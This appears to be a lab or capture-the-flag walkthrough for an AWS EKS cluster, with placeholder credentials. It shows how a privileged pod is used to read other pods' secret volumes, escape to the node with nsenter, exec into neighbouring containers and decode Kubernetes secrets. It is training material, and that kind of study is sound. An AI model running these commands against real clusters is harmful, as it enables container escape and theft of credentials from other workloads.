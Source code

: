 # Authentication
To authenticate on the cluster with kubectl:
1. configure AWS credentials in `~/.aws/credentials` (*note*: credentials was
already added to the file)
```
[monitoring]
aws_access_key_id={PLACEHOLDER_K8S_MONITORING_ACCESS_KEY_ID}
aws_secret_access_key={PLACEHOLDER_K8S_MONITORING_ACCESS_KEY_SECRET}
```

2. configure kubectl with AWS credentials:
```shell
aws eks update-kubeconfig --profile=monitoring --name={PLACEHOLDER_K8S_CLUSTER}
```

Ensure you can start privileged pod: `kubectl auth can-i --list`. You should
see a line allowing the user to `use` the PodSecurityPolicy `eks.privileged`.

# From zero to hero

Check the content of `pod.yaml`. It defines a pod with `privileged` access,
which shares the PID namespace and which mount the node whole filesystem on
`/host`

- Start the privileged on the cluster: `kubectl create -f pod.yaml`
- Ensure the pod has been started: `kubectl get pod -n monitoring-app`
- Get an interactive shell: `kubectl exec my-pod -n monitoring-app -it -- /bin/bash`

# Solution 1: browse the node filesystem

Through the node filesystem, you can access the file system of other pods
running on the same host. It includes other pods' mounted volumes and secrets:
```shell
ls /host/var/lib/kubelet/pods/*/volumes
```

Can you find a new AWS secret within? `ls /host/var/lib/kubelet/pods/*/volumes/kubernetes.io~secret/deployment-secret/`


# Solution 2: escape the container restrictions

With the host PID namespace and privileges, it is very simple to escape all
container isolation:
```shell
nsenter -a -t 1 /bin/bash
```

This command join all Linux namespace (`-a`) of the process with PID 1 (`-t 1`)
and start bash in it.

On Linux, the process with PID 1 is the init program. It runs in all default
namespaces.

You now have a root access within the node EC2 instance. You can also get
access to any other pod running on it:

```shell
docker ps
docker exec -it k8s_core_application-deployment-ds-<RANDOM_ID_TO_COMPLETE> /bin/bash
```

When run within a cluster kubectl automatically use the pod's service account
and the pod's namespace (`aws-app` here).

```shell
kubectl auth can-i --list
kubectl get secret
kubectl get secret application-deployment-credentials -o
kubectl get secret application-deployment-credentials -o json | jq '.data | {description: .description | @base64d, password: .password | @base64d, username: .username | @base64d}'
```

